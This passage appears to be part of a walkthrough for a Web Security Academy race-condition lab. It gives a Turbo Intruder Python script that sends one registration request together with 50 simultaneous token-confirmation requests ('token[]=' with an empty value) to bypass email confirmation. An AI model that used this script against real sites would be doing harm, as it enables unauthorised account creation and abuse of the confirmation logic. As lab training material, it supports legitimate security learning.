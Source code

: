 - **Copy the following Python code to the template:**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    # replace your `phpsessionid` session cookie in here
    confirmTokenRequest = '''POST /confirm?token[]= HTTP/2
Host: 0af8006404e7115080610d59008b0008.web-security-academy.net
Cookie: phpsessionid=MwpWOoCnobr1TrUGlta4cdZpcrqzFR0A
Content-Length: 0

'''
    MIN_ATTEMPT = 1
    MAX_ATTEMPT = 20
    for usernamePrefix in range(MIN_ATTEMPT, MAX_ATTEMPT):
        currentQueue = 'queue' + str(usernamePrefix)
        # prepare 1 registration request
        engine.queue(target.req, str(usernamePrefix), gate=currentQueue)

        # prepare x number of confirm token requests
        CONFIRM_REQUEST_NUMBER = 50
        for confirmRequest in range(CONFIRM_REQUEST_NUMBER):
            engine.queue(confirmTokenRequest, gate=currentQueue)

        # send all prepared requests at the same time
        engine.openGate(currentQueue)

def handleResponse(req, interesting):
    table.add(req)
```

- **Start "Attack" and find `/confirm` POST request with large content length:**
